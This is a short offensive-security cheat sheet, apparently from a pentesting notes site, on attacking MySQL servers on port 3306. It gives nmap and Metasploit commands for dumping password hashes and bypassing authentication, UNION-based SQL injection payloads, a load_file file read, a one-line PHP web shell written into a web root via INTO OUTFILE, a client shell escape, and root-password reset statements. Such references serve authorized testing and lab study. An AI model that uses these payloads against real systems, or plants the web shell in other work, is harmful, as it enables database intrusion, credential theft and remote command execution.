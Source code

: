 ```yaml
---
description: >-
  MySQL (Structured Query Language) is a freely available open source Relational
  Database Management System (RDBMS) SQL.
---
```


# 💵 3306/MYSQL

## Connect

### **Local** <a href="#local" id="local"></a>

```
mysql -u root # Connect to root without password
mysql -u root -p # A password will be asked (check someone)
```

### Remote <a href="#remote" id="remote"></a>

```
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost
```

## External Enumeration <a href="#external-enumeration" id="external-enumeration"></a>

Some of the enumeration actions require valid credentials:

```
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
msf> use auxiliary/scanner/mysql/mysql_hashdump #Creds
msf> use auxiliary/admin/mysql/mysql_enum #Creds
msf> use auxiliary/scanner/mysql/mysql_schemadump #Creds 
msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds
```

## **MySQL commands** <a href="#mysql-commands" id="mysql-commands"></a>

```
show databases;
use <database>;
show tables;
describe <table_name>;

select grantee, table_schema, privilege_type FROM schema_privileges; #Exact privileges
select user,file_priv from mysql.user where user='root'; #File privileges
select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

#Get a shell with the mysql client user
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```

## Checklist

* [ ] Attempt login without password
* [ ] Can be used for checking passwords found from a different service

## Tool:

mysql (Client)
